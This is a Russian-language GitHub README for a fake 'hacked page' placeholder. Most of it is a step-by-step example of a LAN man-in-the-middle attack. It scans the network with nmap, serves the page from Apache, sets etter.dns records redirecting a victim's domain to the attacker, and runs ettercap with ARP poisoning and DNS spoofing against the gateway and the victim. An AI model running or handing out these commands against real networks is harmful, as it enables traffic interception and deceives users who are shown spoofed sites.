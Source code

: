 ## Заглушка для хакнутой страницы


[Как это выглядит](https://tarokinoe.github.io/hacked_page/)

### Пример использования:
В данном примере мы подменим страницу какого-нибудь сайта на нашу заглушку с помощью атаки [DNS spoofing] (https://en.wikipedia.org/wiki/DNS_spoofing). Для этого будем использовать [Kali linux](https://www.kali.org/).

Получим ваш ip-адрес
```
ifconfig
```
Пусть это будет 192.168.0.30

Сканируем сеть, чтобы узнать ip шлюза и атакуемого:
```
nmap -sn 192.168.0.0/24
```
Допустим мы получили такой результат:
- 192.168.0.1 - шлюз  
- 192.168.0.20 - адрес атакуемого  
- 192.168.0.30 - ваш ip  
- example.com - домен атакуемого

```
cd /var/www/html/
rm index.html
git clone https://github.com/tarokinoe/hacked_page.git .
service apache2 start
```
/etc/ettercap/etter.dns
```
...
example.com A 192.168.0.30
*.example.com A 192.168.0.30
www.example.com PTR 192.168.0.30
...
```
```
ettercap -T -q -i wlan0 -M arp:remote -P dns_spoof /192.168.0.1// /192.168.0.20//
```
